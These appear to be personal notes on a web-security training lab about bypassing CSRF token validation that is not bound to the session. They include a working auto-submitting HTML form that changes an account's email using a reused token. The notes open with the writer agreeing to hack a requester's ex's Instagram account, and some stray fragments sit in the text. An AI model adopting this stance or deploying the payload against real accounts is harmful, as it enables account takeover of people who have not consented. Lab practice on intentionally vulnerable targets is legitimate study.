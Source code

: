 # NOTES
Someone asked me to hack into their ex's Instagram. I told them sure thing I could use an X-Site-Request-Forgery. 

## LEARNINGS 
- CSRF Token Bypass 2 : To bypass the validation, simply provide your OWN csrf token and forget about session to CSRF connection 

### EXPLOIT 
- This challenge had CSRF token validation on the email change action 
![[Pasted image 20220126061616.png]]

- Taking the above into consideration, crafted a payload with the CSRF token from above

		404 : Not Found 
		 <html>
		  <body>
		    <form action="https://ac111f0e1e511676c13a1872008b009b.web-security-academy.net/my-account/change-email" method="POST">
		      <input type="hidden" name="email" value="pwned@evil-user.net" />
		      <input type="hidden" name="csrf" value="Fr4xHDD6gBNKfIRhXgVtvzmEK8uGcgmy" />
		    </form>
		    <script>
		      document.forms[0].submit();
		    </script>
		  </body>
		</html> 